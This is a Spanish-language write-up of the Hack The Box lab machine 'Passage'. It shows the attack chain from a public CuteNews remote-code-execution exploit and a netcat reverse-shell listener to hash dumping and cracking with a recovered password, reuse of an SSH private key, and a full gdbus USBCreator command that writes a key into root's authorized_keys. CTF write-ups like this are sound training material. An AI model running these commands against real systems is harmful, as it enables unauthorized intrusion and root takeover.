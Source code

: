 ```yaml
---
layout: single
title: Passage - Hack The Box
excerpt: "Resolución de la máquina *Passage* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de un exploit para el gestor de noticias *CuteNews* para obtener la intrusión inicial. Después encontraremos el hash del usuario paul y lo crackearemos para obtener su contraseña y migrar a su centa de usuario. Veremos como éste usuario tiene la clave privada ssh del usuario navdav en su directorio home, la utilizaremos y migraremos a su cuenta de usuario, y finalmente nos aprovecharemos de una vulnerabilidad que nos permite crear ficheros con permisos de root para poner nuestra clave pública de ssh en las claves autorizadas del usuario root para conectarnos por ssh sin contraseña con la cuenta de root."
date: 2021-03-08
classes: wide
header:
  teaser: /assets/images/Passage-Hackthebox/passage.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Passage-Hackthebox/passage.png)

Resolución de la máquina *Passage* de Hack The Box, una máquina Linux de dificultad media según la plataforma en la cual nos aprovechamos de un exploit para el gestor de noticias *CuteNews* para obtener la intrusión inicial. Después encontraremos el hash del usuario paul y lo crackearemos para obtener su contraseña y migrar a su centa de usuario. Veremos como éste usuario tiene la clave privada ssh del usuario navdav en su directorio home, la utilizaremos y migraremos a su cuenta de usuario, y finalmente nos aprovecharemos de una vulnerabilidad que nos permite crear ficheros con permisos de root para poner nuestra clave pública de ssh en las claves autorizadas del usuario root para conectarnos por ssh sin contraseña con la cuenta de root.

## Escaneo de puertos

![](/assets/images/Passage-Hackthebox/nmap.png)

Puertos 22 y 80 abiertos.

Empiezo mirando la web en el puerto 80.

![](/assets/images/Passage-Hackthebox/web.png)

No hay robots.txt y en el código fuente tampoco hay nada interesante.

Decido fuzzear con ffuf pero me doy cuenta de que a los pocos segundos de empezar a buscar directorios se corta el acceso a la web, como si me hubieran baneado la ip.

## Intrusión inicial

En el pie de página veo “Powered by CuteNews” así que pruebo con searchsploit a ver si encuentra algo relacionado.

Y bingo! Encuentro ésto CuteNews 2.1.2 - Remote Code Execution

Lo descargo con searchsploit -m php/webapps/48800.py, lo ejecuto y me da diréctamente ejecución de comandos.

![](/assets/images/Passage-Hackthebox/cutenews.png)

Lo siguiente es ponerme en escucha en el puerto 9001 con rlwrap nc -lvnp 9001 y ejecutar una reverse shell en bash para recibir la shell.

![](/assets/images/Passage-Hackthebox/shell.png)

Convierto la shell en una shell totalmente interactiva.
Con which python compruebo de tiene python instalado, y luego como siempre:
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
ctrl + z
stty raw -echo
fg
export TERM=xterm
stty rows 58 columns 236
```

## Escalada al usuario paul

En el directorio home veo que hay dos usuarios, paul y nadav, pero no puedo listar lo que hay dentro.
Empiezo a enumerar el directorio var/www/html/CuteNews y encuentro un fichero que tiene unos hashes en base64.

El fichero es var/www/html/CuteNews/cdata/users/lines
Y contiene lo siguiente:

![](/assets/images/Passage-Hackthebox/users.png)

Mirando con `echo “texto” | base64 -d` en cada una de las cadenas de texto veo que hay algunas que tienen un hash de usuario.

```
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:

{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-
coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul

Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6c
b43f16f497273cd";s:3:"lts";s:10:"154www-data@passage:/var/www/html/
CuteNews/cdata/users$

a:1:{s:4:"name";a:1:{s:9:"kim-swift";a:9:{s:2:"id";s:10:"1592483309";s:4:"name";s:9:"kim-
swift";s:3:"acl";s:1:"3";s:5:"email";s:15:"kim@example.com";s:4:"nick";s:9:"Kim

Swift";s:4:"pass";s:64:"f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af30
85fbeca";s:3:"lts";s:10:"1592487094www-data@passage:/var/www/html/CuteNews/
cdata/users$

a:1:{s:4:"name";a:1:{s:5:"admin";a:8:
{s:2:"id";s:10:"1592483047";s:4:"name";s:5:"admin";s:3:"acl";s:1:"1";s:5:"email";s:17:"nad
av@passage.htb";s:4:"pass";s:64:"7144a8b531c27a60b51d81ae16be3a81cef722e11b43a

26fde0ca97f9e1485e1";s:3:"lts";s:10:"1592487988";s:3:"ban";s:1:"0";s:3:"cnt";s:)www-
data@passage:/var/www/html/CuteNews/cdata/users$

a:1:{s:4:"name";a:1:{s:6:"egre55";a:11:
{s:2:"id";s:10:"1598829833";s:4:"name";s:6:"egre55";s:3:"acl";s:1:"4";s:5:"email";s:15:"egre
55@test.com";s:4:"nick";s:6:"egre55";s:4:"pass";s:64:"4db1f0bfd63be058d4ab04f18f6533
1ac11bb494b5792c480faf7fb0c40fa9cc";s:4:"more";s:60:"YToyOntzOjQ6InNpbase64:
invalid input
```

Me guardo el hash de paul en un fichero y lo crackeo con hashcat

`hashcat -m 1400 paul.hash tools/wordlist/rockyou.txt`

![](/assets/images/Passage-Hackthebox/hashcat.png)

e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1

Y con `su paul` me convierto en el usuario paul.

![](/assets/images/Passage-Hackthebox/paul.png)

Ya puedo leer el user.txt

## Escalada al usuario navdav

A continuación me pongo a enumerar lo que hay en la home de paul y veo que dentro de .ssh hay claves privadas. Las miro y veo que son del usuario nadav!

Simplemente copio el contenido de la clave privada y lo pego en un fichero local.
Luego cambio los permisos para que no me de error con `chmod 600 id_rsa` y me conecto con `ssh -i id_rsa nadav@10.10.10.206`

![](/assets/images/Passage-Hackthebox/navdav.png)

## Escalada a root

Llegado a este punto empiezo enumerando los ficheros de la home del usuario y veo en .ICEauthority que se repite varias veces el texto MAGIC-COOKIE.
Busco información sobre eso (iceauthority privilege escalation) y encuentro una página en la que explican un bug que permite crear ficheros con permisos de root.

[https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

Ya que puedo crear ficheros con privilegios de root, me creo en mi máquina un par de claves ssh con ssh-keygen. Después copio el contenido de mi clave pública y me creo un fichero en la máquina passage con el contenido de mi clave.

Por último ejecuto

```
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/key /root/.ssh/authorized_keys true
```

para copiar mi clave pública en root/.ssh/authorized_keys :)

Sólo me queda conectarme por ssh con el usuario root, ya que no me va a pedir contraseña.

![](/assets/images/Passage-Hackthebox/root.png)

Ya puedo leer el root.txt
